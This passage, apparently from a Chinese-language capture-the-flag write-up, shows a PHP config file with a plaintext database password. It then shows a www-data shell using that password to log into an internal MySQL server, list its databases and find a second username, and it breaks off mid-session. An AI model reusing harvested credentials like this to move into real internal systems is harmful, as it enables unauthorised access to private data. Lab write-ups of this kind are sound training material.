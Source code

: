 define('DB_SRV', '192.168.100.1');
define('DB_PASSWD', "!123SecureAdminDashboard321!");
define('DB_USER', 'admin');
define('DB_NAME', 'DashboardDB');

$connection = mysqli_connect(DB_SRV, DB_USER, DB_PASSWD, DB_NAME);

if($connection == false){

        die("Error: Connection to Database could not be made." . mysqli_connect_error());
}
?>

```

192.168.100.1应该是一个内网IP，跑着一个mysql服务

尝试连接,有一个DashboardDB数据库

```
www-data@9b49d5e2bc5e:/var/www/admin$ mysql -h 192.168.100.1 -u admin -p
mysql -h 192.168.100.1 -u admin -p
Enter password: !123SecureAdminDashboard321!

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 10
Server version: 8.0.22-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| DashboardDB        |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.00 sec)

```

只有一张users表，发现另一个用户名：gurag
```
mysql> use DashboardDB;
use DashboardDB;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
